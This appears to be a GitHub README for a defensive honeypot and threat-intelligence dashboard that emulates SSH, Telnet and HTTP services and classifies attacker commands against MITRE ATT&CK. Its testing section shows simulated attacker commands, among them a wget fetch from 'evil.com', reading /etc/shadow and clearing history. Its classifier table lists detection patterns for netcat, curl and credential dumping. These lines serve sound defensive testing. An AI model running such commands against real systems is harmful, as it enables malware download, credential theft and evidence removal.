


<p align="center">
  <h1 align="center">Honeypot & Cyber Threat Intelligence Dashboard</h1>
  <p align="center">
    A modular multi-protocol honeypot system with an integrated real-time SOC/CTI dashboard for automated threat detection, MITRE ATT&CK behavioral classification, forensic triage, and threat intelligence export.
  </p>
</p>

<p align="center">
  
  
  
  
  
  
  
</p>

---

## Executive Summary

This system deploys deceptive network services (SSH, Telnet, HTTP) that emulate real production infrastructure to lure, observe, and classify attacker behavior in real time. Every interaction — from brute-force authentication attempts to post-exploitation shell commands — is captured, stored in a relational SQLite database, classified against the MITRE ATT&CK framework, and streamed live to an interactive SOC dashboard via WebSockets.

A **HoneyToken** mechanism plants fake credentials inside decoy HTTP endpoints (e.g., `.env` files). When an attacker harvests these credentials and reuses them on SSH or Telnet, the system triggers an **instant, automated IP ban** and broadcasts a critical alert to all connected dashboard clients.

### Architecture Overview



---

## Core Features

### Deception Engine — Multi-Protocol Honeypot

| Protocol | Port | Emulation |
|----------|------|-----------|
| **SSH** | `2222` | Full SSH2 server with host key authentication. Accepts password, publickey, and keyboard-interactive methods. After 3 failed attempts (or immediate HoneyToken match), grants shell access to a sandboxed mock environment emulating Ubuntu 22.04 LTS. |
| **Telnet** | `2323` | Raw TCP socket presenting a realistic `Ubuntu 22.04.3 LTS` login banner with staged `login:` / `Password:` prompts, followed by a fully interactive fake shell. |
| **HTTP** | `8080` | Serves an Apache 2.4.52 default page at `/`, a WordPress `wp-login.php` form, and — critically — a **decoy `.env` file** at any URL containing `.env` that leaks planted HoneyToken credentials (`DB_USERNAME`, `DB_PASSWORD`). |

The **Mock Shell** (`mockShell.js`) simulates 30+ Linux commands including `uname`, `ifconfig`, `ps`, `cat /etc/passwd`, `wget`, `netstat`, `df`, `free`, and more — returning realistic output to keep attackers engaged while all activity is captured.

### HoneyToken Bait Mechanism

1. Attacker probes `http://<host>:8080/.env` and discovers planted credentials:
   ```
   DB_USERNAME=root
   DB_PASSWORD=SuperSecretPass2026!
   ```
2. Attacker reuses these credentials on SSH (`:2222`) or Telnet (`:2323`).
3. The system **instantly detects** the HoneyToken password match against `HONEY_TOKENS.BAIT_PASSWORD`.
4. `banIpInstantly()` is called — the IP is immediately written to the `blacklist` table.
5. A `threat:alert` Socket.io event with severity `CRITICAL` and type `HONEYTOKEN_TRIGGERED` is broadcast to all dashboard clients.
6. All subsequent connections from the banned IP are dropped at the socket level.

### MITRE ATT&CK Behavioral Classification

Every shell command executed in the SSH or Telnet honeypot is classified in real time by the rule-based engine in `mitreClassifier.js`:

| Tactic | Technique | Tag | Trigger Commands |
|--------|-----------|-----|------------------|
| Discovery | T1082 — System Information Discovery | `DISCOVERY` | `uname`, `cat /proc/cpuinfo`, `hostname`, `uptime`, `lscpu` |
| Discovery | T1016 — System Network Configuration | `NET_DISCOVERY` | `ifconfig`, `ip a`, `ip route`, `netstat`, `ss`, `arp` |
| Discovery | T1087 — Account Discovery | `USER_DISCOVERY` | `whoami`, `id`, `cat /etc/passwd`, `w`, `who`, `last` |
| Credential Access | T1003 — OS Credential Dumping | `CRED_DUMP` | `cat /etc/shadow`, `cat /etc/master.passwd`, `unshadow` |
| Command and Control | T1105 — Ingress Tool Transfer | `TOOL_TRANSFER` | `wget`, `curl`, `tftp`, `scp`, `ftp`, `nc`, `netcat` |
| Defense Evasion | T1070 — Indicator Removal | `DEF_EVASION` | `history -c`, `rm -rf`, `shred`, `unset HISTFILE`, `kill` |
| Persistence | T1053 — Scheduled Task/Job | `PERSISTENCE` | `crontab`, `at`, `systemctl enable` |
| Execution | T1059 — Command and Scripting Interpreter | `EXECUTION` | *(Fallback for unmatched commands)* |

Each classification includes a color-coded TTP badge rendered on the dashboard terminal stream and event feed.

### Active Defense & Blacklist Management

The threat detection pipeline operates in two modes:

**Threshold-Based Banning** (`threatSensor.js`):
- Configurable via environment variables `REQUEST_THRESHOLD` and `PORT_SCAN_THRESHOLD`.
- When an IP exceeds the request count within the sliding TTL window → automatic ban with reason `Exceeded max request count.`
- When an IP probes more unique ports than the threshold → automatic ban with reason `Exceeded max port scan count.`

**Instant HoneyToken Banning**:
- Any authentication attempt using the planted bait password triggers `banIpInstantly()` — zero tolerance, no threshold delay.

**Connection Filtering** (`trafficFilter.js` + `connectionHandler.js`):
- On every inbound connection across all protocols, `isBlacklisted(ip)` is checked against the `blacklist` table.
- Blacklisted IPs are immediately dropped: `socket.destroy()` (Telnet), `client._sock.destroy()` (SSH), or `403` response (HTTP).

**GUI-Based Unban** (Dashboard Modal):
- Clicking the "Banned IPs" metric card opens a management modal listing all blacklisted IPs with reasons and ban dates.
- Each entry has an **Unban** button that issues a `DELETE /api/logs/blacklist/:ip` request, removing the IP from the database.

### Real-time Observability & Analytics

The dashboard (`frontend/`) is a dark-themed SOC interface powered by Socket.io and Chart.js:

- **Metric Cards**: Total Attacks, Last 24 Hours, Banned IPs (clickable), Protocol Distribution (SSH/Telnet/HTTP counts).
- **Protocol Distribution Donut** (Chart.js): Visual breakdown of attack traffic by protocol.
- **Credential Frequency Bar Chart** (Chart.js): Horizontal bar chart showing the most frequently attempted passwords.
- **Live Event Feed Table**: Streaming table of all authentication attempts, HTTP requests, and shell commands — auto-scrolling, capped at 50 rows, with a Clear button.
- **Reactive Terminal Stream**: Monospace terminal-style panel showing real-time command execution with MITRE ATT&CK TTP badges.
- **Top Attempted Passwords List**: Ranked list from REST API.
- **Critical Alert Banner**: Animated red banner triggered by HoneyToken activation, auto-dismissing after 10 seconds.
- **Socket Status Indicator**: Live/Disconnected badge reflecting WebSocket health.

### Threat Intelligence Export (IOC Feed)

Export threat indicators in two formats for ingestion by SIEMs, firewall blocklists, and external CTI pipelines:

**CSV Export** (`/api/logs/export/ioc/csv`):
```csv
Type,Indicator,ThreatLevel,Reason,RequestCount,TargetPorts,BannedDate
"IPv4","203.0.113.42","HIGH","HoneyToken bait triggered.","5","2222;8080","2026-09-14 12:30:00"
```

**JSON Export** (`/api/logs/export/ioc/json`):
```json
{
  "exportedAt": "2026-09-14T12:30:00.000Z",
  "indicators": [
    {
      "type": "IPv4",
      "value": "203.0.113.42",
      "threat_level": "HIGH",
      "reason": "HoneyToken bait triggered.",
      "request_count": 5,
      "scanned_ports": "[2222,8080]",
      "first_banned": "2026-09-14 12:30:00"
    }
  ],
  "targetedCredentials": [
    { "password": "admin", "count": 47 },
    { "password": "123456", "count": 31 }
  ]
}
```

---

## Technology Stack

### Backend

| Technology | Version | Purpose |
|------------|---------|---------|
| **Node.js** | 18+ | Runtime environment (ES Modules) |
| **Express** | 5.2.x | REST API framework and HTTP middleware |
| **better-sqlite3** | 13.x | Synchronous SQLite driver for high-performance logging |
| **Socket.io** | 4.8.x | WebSocket server for real-time event broadcasting |
| **SSH2** | 1.17.x | Full SSH2 protocol server implementation |
| **net** (Node built-in) | — | Raw TCP server for Telnet emulation |
| **node-cache** | 5.1.x | In-memory TTL cache for sliding-window rate limiting |
| **cors** | 2.8.x | Cross-Origin Resource Sharing middleware |
| **dotenv** | 17.x | Environment variable management |

### Frontend

| Technology | Purpose |
|------------|---------|
| **Vanilla JavaScript** (ES6+) | Dashboard logic, Socket.io client, DOM manipulation |
| **HTML5** | Semantic structure |
| **CSS3** (Custom Dark SOC Theme) | Dark-mode design system with CSS variables (`--bg`, `--card-bg`, `--border`, `--primary`, `--danger`) |
| **Chart.js** (v4 CDN) | Doughnut chart (Protocol Distribution), Horizontal Bar chart (Credential Frequency) |
| **Socket.io Client** (v4 CDN) | Real-time WebSocket consumer |

### Database

| Engine | File | Purpose |
|--------|------|---------|
| **SQLite** | `backend/src/db/network.db` | Persistent relational storage for all logs, protocol-specific details, and blacklist state |

---

## Database Schema Architecture

### Entity Relationship



> `blacklist` is an independent table with no foreign-key relationship to `logs`.

### Table Definitions

#### `logs` — Master connection log

```sql
CREATE TABLE logs (
    id          INTEGER PRIMARY KEY AUTOINCREMENT,
    source_ip   TEXT NOT NULL,
    source_port INTEGER NOT NULL,
    target_port INTEGER NOT NULL,
    protocol    TEXT NOT NULL,           -- 'ssh' | 'telnet' | 'http'
    started_at  DATETIME DEFAULT CURRENT_TIMESTAMP NOT NULL,
    ended_at    DATETIME                -- NULL for active sessions
);
```

#### `ssh_details` — SSH protocol telemetry

```sql
CREATE TABLE ssh_details (
    log_id                 INTEGER NOT NULL REFERENCES logs(id) ON DELETE CASCADE,
    attempted_username     TEXT NOT NULL,
    attempted_password     TEXT,
    client_version         TEXT,         -- e.g. 'SSH-2.0-OpenSSH_8.9p1'
    method                 TEXT,         -- 'password' | 'publickey' | 'honeytoken_password'
    public_key_fingerprint TEXT,         -- SHA256 fingerprint
    commands_executed      JSON,         -- Array of {command, executed_at, type}
    raw_payload            JSON NOT NULL -- KEX data, attempt metadata
);
```

#### `telnet_details` — Telnet session data

```sql
CREATE TABLE telnet_details (
    log_id             INTEGER NOT NULL REFERENCES logs(id) ON DELETE CASCADE,
    attempted_username TEXT NOT NULL,
    attempted_password TEXT NOT NULL,
    commands_executed  TEXT,             -- JSON array of {command, executed_at}
    raw_payload        JSON NOT NULL    -- Raw packet capture metadata
);
```

#### `http_details` — HTTP request capture

```sql
CREATE TABLE http_details (
    log_id          INTEGER NOT NULL REFERENCES logs(id) ON DELETE CASCADE,
    method          TEXT NOT NULL,       -- 'GET' | 'POST' | etc.
    headers         JSON NOT NULL,       -- Full request headers
    body_payload    JSON NULL,           -- POST body (form data, JSON)
    url             TEXT NOT NULL,       -- Requested path
    response_status INTEGER NOT NULL    -- HTTP status code returned
);
```

#### `blacklist` — Banned IP registry

```sql
CREATE TABLE blacklist (
    id                 INTEGER PRIMARY KEY AUTOINCREMENT,
    ip                 TEXT NOT NULL UNIQUE,
    request_count      INTEGER NOT NULL,
    scanned_ports      TEXT NOT NULL,    -- JSON array of port numbers
    scanned_port_count INTEGER NOT NULL,
    reason             TEXT,             -- Human-readable ban reason
    is_threat          INTEGER DEFAULT 1,
    banned_date        DATETIME DEFAULT CURRENT_TIMESTAMP NOT NULL
);
```

---

## Installation & Setup Guide

### Prerequisites

- **Node.js** ≥ 18.x (ES Module support required)
- **npm** ≥ 9.x
- **OpenSSL** (for SSH host key generation)

### 1. Clone the Repository

```bash
git clone https://github.com/ibrahimkabadayi/IPSTracker.git
cd IPSTracker
```

### 2. Install Backend Dependencies

```bash
cd backend
npm install
```

> **Note:** `better-sqlite3` is a native module and requires a C++ build toolchain. On Windows, ensure **windows-build-tools** or **Visual Studio Build Tools** are installed. On Linux/macOS, `make`, `gcc`, and `python3` are typically sufficient.

### 3. Generate SSH Host Key

The SSH honeypot requires an RSA host key pair:

```bash
cd backend
ssh-keygen -t rsa -b 2048 -f host_key -N "sshpassword"
```

> The passphrase must match the `HOST_KEY` value in your `.env` file.

### 4. Configure Environment Variables

Create `backend/.env`:

```env
PORT=3000
TTL=5
REQUEST_THRESHOLD=10
PORT_SCAN_THRESHOLD=3
HOST_KEY=sshpassword
MAX_BODY_SIZE=1048576
BAIT_ROOT_PASSWORD=SuperSecretPass2026!
BAIT_DB_USER=root
```

| Variable | Description | Default |
|----------|-------------|---------|
| `PORT` | Express API + Socket.io server port | `3000` |
| `TTL` | Sliding window duration (seconds) for rate limiting | `5` |
| `REQUEST_THRESHOLD` | Max requests per IP within TTL window before auto-ban | `10` |
| `PORT_SCAN_THRESHOLD` | Max unique ports scanned per IP before auto-ban | `3` |
| `HOST_KEY` | Passphrase for the SSH host key file | — |
| `MAX_BODY_SIZE` | Maximum HTTP body size in bytes (DoS protection) | `1048576` |
| `BAIT_ROOT_PASSWORD` | HoneyToken password planted in fake `.env` files | — |
| `BAIT_DB_USER` | HoneyToken username planted in fake `.env` files | `root` |

### 5. Start the System

```bash
cd backend
node index.js
```

On successful startup, you will see:

```
Database initialized.
HTTP server listening on port 8080
SSH honeypot listening on port 2222
TELNET Server listening on port 2323
Server started on port 3000
🟢 Successfully connected! Listening for live threats...
```

### 6. Open the Dashboard

Open `frontend/index.html` directly in a browser, or serve it with any static file server:

```bash
# Option 1: Direct file open
start frontend/index.html          # Windows
open frontend/index.html           # macOS

# Option 2: Serve with npx
npx -y serve frontend -l 5500
```

The dashboard connects to `http://localhost:3000` via Socket.io and REST API.

---

## Simulating Attacks & Testing

### HTTP Reconnaissance — Probing the `.env` Bait

```bash
# Discover the "leaked" .env file
curl http://localhost:8080/.env

# Output contains HoneyToken credentials:
# DB_USERNAME=root
# DB_PASSWORD=SuperSecretPass2026!

# Probe the WordPress login form
curl http://localhost:8080/wp-login.php

# Submit fake credentials via POST
curl -X POST http://localhost:8080/wp-login.php \
  -d "log=admin&pwd=password123"
```

### SSH Brute-Force & Shell Interaction

```bash
# Connect to the SSH honeypot (will accept after 3 failed attempts)
ssh -p 2222 root@localhost

# Once inside the mock shell, execute MITRE-classified commands:
whoami                    # → T1087 Account Discovery
ifconfig                  # → T1016 Network Configuration Discovery
uname -a                  # → T1082 System Information Discovery
cat /etc/shadow           # → T1003 Credential Dumping
wget http://evil.com/bot  # → T1105 Ingress Tool Transfer
history -c                # → T1070 Indicator Removal
crontab -e                # → T1053 Scheduled Task/Job
exit
```

### Telnet Connection

```bash
# Connect to the Telnet honeypot
telnet localhost 2323

# Enter any username and password at the login prompts
# You will be dropped into the same mock shell environment
```

### HoneyToken Trigger — Full Attack Chain

```bash
# Step 1: Harvest credentials from .env
curl http://localhost:8080/.env
# Note the DB_PASSWORD value

# Step 2: Use the stolen password on SSH
ssh -p 2222 root@localhost
# Password: SuperSecretPass2026!

# Step 3: Observe on the dashboard:
#   → Critical Alert Banner flashes: "HONEYTOKEN_TRIGGERED"
#   → IP is instantly added to the blacklist
#   → All further connections from this IP are dropped
```

### Triggering Rate-Limit Bans

```bash
# Rapid port scanning (exceed PORT_SCAN_THRESHOLD)
for port in 2222 2323 8080 9090; do
  curl -s http://localhost:$port/ &
done

# Rapid requests (exceed REQUEST_THRESHOLD)
for i in $(seq 1 15); do
  curl -s http://localhost:8080/ &
done
```

---

## API Reference

All endpoints are prefixed with `/api/logs` and served on the Express port (default: `3000`).

### Statistics & Analytics

| Method | Endpoint | Query Params | Description |
|--------|----------|--------------|-------------|
| `GET` | `/api/logs/stats/overview` | — | Returns total attacks, last 24h count, total blacklisted IPs, and per-protocol breakdown |
| `GET` | `/api/logs/stats/credentials` | `?limit=10` | Returns top attempted usernames and passwords aggregated across SSH and Telnet |
| `GET` | `/api/logs/stats/top-ips` | `?limit=10` | Returns most active attacker IPs with attack count, first seen, and last seen timestamps |
| `GET` | `/api/logs/recent-commands` | `?limit=25` | Returns recent shell commands with MITRE ATT&CK classification (tactic, technique, tag, color) |

### Logs & Blacklist

| Method | Endpoint | Description |
|--------|----------|-------------|
| `GET` | `/api/logs/` | Returns all raw log entries from the `logs` table |
| `GET` | `/api/logs/blacklist` | Returns all blacklisted IPs with reason, request count, scanned ports, and ban date |
| `DELETE` | `/api/logs/blacklist/:ip` | Removes an IP from the blacklist (unban) |
| `GET` | `/api/logs/cache-snapshot` | Debug endpoint returning the current in-memory rate-limit cache state |

### Threat Intelligence Export

| Method | Endpoint | Content-Type | Description |
|--------|----------|--------------|-------------|
| `GET` | `/api/logs/export/ioc/json` | `application/json` | Downloads IOC report as JSON with indicators and targeted credentials |
| `GET` | `/api/logs/export/ioc/csv` | `text/csv` | Downloads IOC report as CSV (SIEM-compatible): Type, Indicator, ThreatLevel, Reason, RequestCount, TargetPorts, BannedDate |

### Sample Response — `/api/logs/stats/overview`

```json
{
  "success": true,
  "data": {
    "totalAttacks": 142,
    "last24Hours": 38,
    "totalBlacklisted": 7,
    "protocols": {
      "ssh": 89,
      "telnet": 31,
      "http": 22
    }
  }
}
```

### Sample Response — `/api/logs/recent-commands`

```json
{
  "success": true,
  "data": [
    {
      "ip": "192.168.1.50",
      "protocol": "ssh",
      "command": "cat /etc/shadow",
      "ttp": {
        "tactic": "Credential Access",
        "technique": "T1003 - OS Credential Dumping",
        "tag": "CRED_DUMP",
        "color": "#f85149"
      },
      "executedAt": "2026-09-14T12:45:30.000Z"
    }
  ]
}
```

### Socket.io Events

The server broadcasts the following real-time events:

| Event | Trigger | Payload |
|-------|---------|---------|
| `threat:auth` | SSH/Telnet/HTTP authentication attempt | `{ protocol, ip, port, username, password, status, isHoneyToken, attempt, timestamp }` |
| `threat:command` | Shell command execution in SSH/Telnet | `{ protocol, ip, command, type, ttp: { tactic, technique, tag, color }, timestamp }` |
| `threat:http_request` | Any HTTP request to the honeypot | `{ ip, method, url, status, timestamp }` |
| `threat:alert` | HoneyToken triggered (CRITICAL) | `{ severity, type, protocol, ip, port, username, password, message, timestamp }` |
| `threat:session` | SSH session closed | `{ protocol, ip, status, totalCommands, timestamp }` |
| `newAlert` | IP banned by threat sensor | `{ ip, isThreat, reason }` |

---

## Project Structure

```
IPSTracker/
├── backend/
│   ├── index.js                          # Entry point: Express + Socket.io + honeypot boot
│   ├── package.json                      # Dependencies and project metadata
│   ├── .env                              # Environment configuration (gitignored)
│   ├── host_key / host_key.pub           # SSH host key pair (gitignored)
│   ├── testSocket.js                     # Socket.io client for CLI monitoring
│   └── src/
│       ├── cache/
│       │   └── cacheService.js           # In-memory sliding-window rate limiter (node-cache)
│       ├── controllers/
│       │   └── logController.js          # Express route handlers for all API endpoints
│       ├── db/
│       │   ├── database.js               # SQLite schema, CRUD operations, IOC export queries
│       │   └── network.db                # SQLite database file (gitignored)
│       ├── detector/
│       │   ├── mitreClassifier.js        # Regex-based MITRE ATT&CK command classifier
│       │   └── threatSensor.js           # Threshold + HoneyToken ban logic
│       ├── honeypot/
│       │   ├── index.js                  # Starts all three honeypot servers
│       │   ├── connectionHandler.js      # Pre-connection blacklist + rate-limit gate
│       │   ├── fakeTemplates.js          # Apache default page, WordPress login, .env decoy, 404
│       │   ├── honeyTokens.js            # HoneyToken credential definitions from .env
│       │   ├── mockShell.js              # Fake Linux shell command responses (30+ commands)
│       │   ├── middlewares/
│       │   │   └── trafficFilter.js      # isBlacklisted() check against database
│       │   └── servers/
│       │       ├── http.js               # HTTP honeypot (port 8080)
│       │       ├── ssh.js                # SSH honeypot (port 2222)
│       │       └── telnet.js             # Telnet honeypot (port 2323)
│       ├── jobs/
│       │   └── cacheResetTask.js         # Hourly cache stats maintenance logging
│       ├── middlewares/
│       │   └── httpLogger.js             # Express request logging middleware
│       ├── routes/
│       │   └── logs.js                   # Express router definitions
│       └── socket/
│           └── socketHandler.js          # Socket.io connection lifecycle handler
└── frontend/
    ├── index.html                        # Dashboard HTML structure
    ├── style.css                         # Dark SOC theme with CSS variables
    └── script.js                         # Dashboard logic, Socket.io consumer, Chart.js
```

---

## Security & Deployment Considerations

### Port Binding

- The honeypot services listen on **non-privileged ports** (`2222`, `2323`, `8080`) by default, avoiding the need for root/administrator privileges.
- For production deployment, use `iptables`/`nftables` rules or a reverse proxy to redirect standard ports to the honeypot ports:

  ```bash
  # Redirect SSH (22 → 2222), Telnet (23 → 2323), HTTP (80 → 8080)
  sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222
  sudo iptables -t nat -A PREROUTING -p tcp --dport 23 -j REDIRECT --to-port 2323
  sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
  ```

### Isolation & Containment

- **Never deploy honeypots on production systems.** Use an isolated VM, container, or dedicated host on a DMZ network segment.
- Run the Node.js process under an **unprivileged user account** with minimal filesystem access.
- Consider running inside a Docker container with `--network=bridge` and restricted capabilities.

### Avoiding Honeypot Fingerprinting

- The fake templates emulate real Apache 2.4.52 / Ubuntu 22.04 / WordPress responses. Regularly review and update response headers, banners, and HTML to match current software versions.
- The SSH server presents a standard host key; ensure the banner and supported algorithms align with common OpenSSH configurations.
- The mock shell simulates realistic output for common reconnaissance commands. Add or update command responses periodically.

### Dashboard Security

- The REST API and Socket.io server currently accept connections from all origins (`cors: { origin: '*' }`). For production, restrict CORS to your SOC dashboard's domain.
- Consider adding authentication (API keys, JWT, or HTTP Basic Auth) to the `/api/logs/*` endpoints.
- The dashboard frontend should be served over HTTPS in production.

### Data Retention

- The SQLite database (`network.db`) grows with each logged interaction. Implement periodic rotation or archival for long-running deployments.
- Sensitive data (attacker credentials, raw payloads) is stored in plaintext. Apply disk encryption and access controls.

---

## License

This project is licensed under the **ISC License**.

---

## Contributing

Contributions are welcome. Please follow these guidelines:

1. **Fork** the repository and create a feature branch from `main`.
2. Write clear, descriptive commit messages.
3. Ensure your changes don't break existing functionality.
4. Submit a **Pull Request** with a summary of changes and the reasoning behind them.

### Areas for Contribution

- Additional MITRE ATT&CK technique rules in `mitreClassifier.js`
- New protocol emulators (e.g., FTP, SMTP, RDP)
- Enhanced mock shell responses and filesystem emulation
- Dashboard enhancements (geolocation maps, timeline views, STIX/TAXII export)
- Authentication and RBAC for the API layer
- Docker/Docker Compose deployment configuration
- Automated testing suite

---

<p align="center">
  <sub>Built for defenders. Deployed against adversaries.</sub>
</p>